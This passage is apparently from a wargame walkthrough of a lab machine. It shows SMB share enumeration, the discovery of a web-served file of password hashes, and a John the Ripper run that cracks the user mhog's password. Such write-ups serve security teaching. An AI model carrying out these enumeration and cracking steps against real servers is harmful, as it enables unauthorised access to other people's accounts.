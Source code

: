 ```
```

We have one foot in the server, now we can do some more enumerating and see what files and directories exist. The /rootfs/home directory shows only three users:

```
smb: \rootfs\> cd home
smb: \rootfs\home\> ls
  .                                   D        0  Mon Feb 14 06:00:31 2011
  ..                                  D        0  Tue Aug 28 20:40:02 2012
  jsummer                             D        0  Mon Feb 21 06:25:30 2011
  mhog                                D        0  Mon Feb 21 06:15:57 2011
  tskies                              D        0  Mon Feb 21 06:20:55 2011
 
  38631 blocks of size 16384. 30439 blocks available
smb: \rootfs\home\> 
```

We are unsuccessful in accessing the contents of the directories due to lack of permissions.

We find an interesting file in rootfs/var/www called garbage.

```
smb: \rootfs\var\www\htdocs\> ls
  .                                   D        0  Fri Feb 18 06:41:43 2011
  ..                                  D        0  Tue Mar 20 04:58:04 2001
  Images                              D        0  Fri Feb 18 06:22:50 2011
  garbage                                    288  Fri Feb 18 06:41:14 2011
  index.html                          A     3001  Fri Feb 18 06:33:59 2011
  info.php                            A       21  Fri Feb 18 06:06:04 2011
  status.html                         A     2456  Fri Feb 18 06:28:46 2011
 
  38631 blocks of size 16384. 30088 blocks available
smb: \rootfs\var\www\htdocs\>
```

Since this file is hosted by the web server, we open it with Firefox and discover UNIX encrypted password hashes, possibly belonging to the server itself:

->![](/images/2012-08-29/06.png)<-

We save this into a file and crack it with john. Using --single, we immediately crack mhog's password, which is mhog:

```
root mugbear.maximera ~/wargames/loophole
# /pentest/passwords/john/john --single garbage.txt 
Loaded 3 password hashes with 3 different salts (FreeBSD MD5 [128/128 SSE2 intrinsics 4x])
mhog             (mhog)
guesses: 1  time: 0:00:00:00 DONE (Wed Aug 29 02:03:43 2012)  c/s: 4545  trying: tskies1903 - tskies1900
Use the "--show" option to display all of the cracked passwords reliably
```
